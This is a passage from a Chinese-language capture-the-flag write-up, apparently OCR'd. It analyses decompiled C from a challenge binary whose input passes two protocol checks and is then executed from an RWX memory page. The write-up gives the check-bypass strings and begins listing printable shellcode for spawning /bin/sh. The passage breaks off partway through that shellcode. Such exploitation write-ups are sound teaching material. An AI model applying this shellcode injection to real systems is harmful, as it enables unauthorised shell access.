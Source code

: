 ```c++
      sub_DA8((const char *)dest);
      break;
    case 3:
      sub_EFE((const char *)dest);
      break;
    case 1:
      sub_CBD((const char *)dest);
      break;
    default:
      puts("error.");
      exit(6);
  }
  return __readfsqword(0x28u) ^ v13;
}
```
由上述可知，要进行两次校验，在连接之后就需要先写通过校验才可以进行后续操作，即`'opt:1\r\nmsg:ro0t\r\n`和`opt:2\r\nmsg:`，且最终结尾必须是`\r\n`

绕过以后,进一步分析绕过之后执行的函数内容，`sub_DA8`函数内容如下
```c++
unsigned __int64 __fastcall sub_DA8(const char *a1)
{
  unsigned int v1; // eax
  size_t v2; // rax
  int i; // [rsp+14h] [rbp-2Ch]
  void *dest; // [rsp+18h] [rbp-28h]
  unsigned __int64 v6; // [rsp+28h] [rbp-18h]

  v6 = __readfsqword(0x28u);
  for ( i = 0; i < strlen(a1); ++i )
  {
    if ( !isprint(a1[i]) && a1[i] != 10 )
    {
      puts("oh!");
      exit(-1);
    }
  }
  if ( unk_202028 != 1 )
  {
    puts("oh!");
    exit(-1);
  }
  if ( unk_202024 )
  {
    v1 = getpagesize();
    dest = (void *)(int)mmap((char *)&loc_FFE + 2, v1, 7, 34, 0, 0LL);
    v2 = strlen(a1);
    memcpy(dest, a1, v2);
    ((void (*)(void))dest)();    //shellcode利用转换执行
  }
  else
  {
    puts(a1);
  }
  return __readfsqword(0x28u) ^ v6;
}
```
因此可见只需要填充对应数组执行shellcode即可，直接找到相应的执行`/bin/sh`的shellcode如下：
```
push edx
push 0x36363630
push esp
pop ecx
xor dword ptr ds:[ecx],esi
xor esi,dword ptr ds:[ecx]
```